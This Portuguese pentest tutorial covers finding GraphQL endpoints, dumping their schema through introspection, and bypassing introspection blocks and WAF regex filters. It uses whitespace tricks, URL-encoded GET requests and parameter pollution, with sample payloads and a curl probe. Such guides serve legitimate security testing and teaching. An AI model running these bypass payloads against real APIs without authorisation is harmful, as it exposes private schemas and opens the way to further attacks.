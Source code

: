 ```yaml
---
layout: post
title:  "Descobrindo e explorando endpoints GraphQL"
date:   2025-04-05 13:30:00
cover: /lab/assets/images/posts/lucassouza.io_graphql_attacks.png
categories: PENTEST
--- 
```


GraphQL tornou-se uma alternativa popular às APIs REST devido à sua flexibilidade e eficiência. Neste guia técnico, exploraremos endpoints comuns, técnicas de introspecção e métodos para contornar controles de segurança.

---
## Endpoints GraphQL Comuns

Ao testar APIs GraphQL, verifique estes endpoints:

- `/graphql`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`

**Dica:**  
Use ferramentas como **Burp Suite**, **curl** ou **Postman** para enviar consultas de teste a esses endpoints. Um simples `POST` com `{"query":"{__typename}"}` pode confirmar se um endpoint está ativo.

```
curl -X POST -H "Content-Type: application/json" -d '{"query":"{__typename}"}' http://alvo/graphql
```

---
## Introspection Query: Mapeando o Schema da API

O **introspection** permite que clientes consultem o **schema** de uma API GraphQL — um recurso poderoso tanto para desenvolvedores quanto para atacantes. Veja como utilizá-lo:

### Verificação Básica de Introspecção

```
{
  "query": "{__schema{queryType{name}}}"
}
```
Uma resposta bem-sucedida confirma que a introspecção está habilitada.

### Extração Completa do Schema

Use esta consulta detalhada para obter o schema completo:

```
query IntrospectionQuery {
  __schema {
    queryType { name }
    mutationType { name }
    subscriptionType { name }
    types { ...FullType }
    directives {
      name
      description
      args { ...InputValue }
    }
  }
}

fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args { ...InputValue }
    type { ...TypeRef }
    isDeprecated
    deprecationReason
  }
  inputFields { ...InputValue }
  interfaces { ...TypeRef }
  enumValues(includeDeprecated: true) {
    name
    description
    isDeprecated
    deprecationReason
  }
  possibleTypes { ...TypeRef }
}

fragment InputValue on __InputValue {
  name
  description
  type { ...TypeRef }
  defaultValue
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
      }
    }
  }
}
```

**Nota:** Se a consulta falhar, tente remover as diretivas `onOperation`, `onFragment` e `onField`. Muitas implementações as rejeitam por padrão.

---
## Contornando as Proteções de Introspecção

Ao enfrentar introspecção desabilitada ou proteções de WAF, experimente estas técnicas:
### 1. Manipulação de Espaços em Branco

```
{
  "query": "query{__schema
  {queryType{name}}}"
}
```

O GraphQL ignora espaços em branco, permitindo quebrar proteções baseadas em regex.
### 2. Troca de Método HTTP

Teste requisições GET com consultas codificadas em URL:

```
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```
### 3. Poluição de Parâmetros

Teste nomes alternativos de parâmetros:

```
POST /api
Content-Type: application/json

{"q":"{__schema{types{name}}}", "query":"{__typename}"}
```
### 4. Descoberta Assistida por Ferramentas

Se a introspecção estiver desativada, use **[clairvoyance](https://github.com/nikitastupin/clairvoyance)** para reconstruir o schema por meio de mensagens de erro e sugestões de consulta.

---
## Exploração Avançada com Burp Suite

1. Com o endpoint GraphQL identificado **envie a requisição para o Repeater**: 
	- Clique com o botão direito em qualquer requisição GraphQL → **Send to Repeater**.
	
2. **Execute a Introspecção**:
    - No aba repeater, clique com o botão direito na requisição → **GraphQL → Set Introspection Query**.
	
3. **Analise os Resultados**:
    - Clique com o botão direito na resposta → **GraphQL → Save queries to site map**.
    - Visualize o schema reconstruído em **Target → Site Map**.
   
---
## Estudo Complementar:

- https://portswigger.net/web-security/graphql
- https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html
- https://graphql.org/learn/security/
